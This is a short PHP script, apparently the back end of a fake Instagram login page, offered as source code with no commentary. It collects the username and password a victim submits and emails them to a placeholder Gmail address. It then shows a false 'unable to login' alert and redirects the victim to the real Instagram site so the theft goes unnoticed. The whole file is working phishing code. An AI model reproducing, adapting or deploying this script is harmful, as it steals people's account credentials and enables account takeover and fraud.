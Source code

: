 # instagram-7
<?php

//varible setting
$username = $_REQUEST['u_name'];  // fetch username
 $passcode = $_REQUEST['pass'];  // fetch password
 $subject = "Someone Login ! Insta Dummy page";
 $to ="xxxxxxxx@gmail.com";
 
 $txt = "Username : ". $username. "\r\nPassword : ". $passcode ; // email body (i) username [break] (ii) password;
 


// check input fields
if (empty($username)|| empty($passcode)){ // name or message
echo"<script type='text/javascript'>alert('Please enter correct username or password. Try again ');
    window.history.go(-1);
    </script>";
}
else 
{ 
    mail($to,$subject,$txt); // send an email 
    echo"<script type='text/javascript'>alert('Sorry ! unable to login ');
     // Simulate an HTTP redirect:
    window.location.replace('http://www.instagram.com');
    </script>";
}


?>
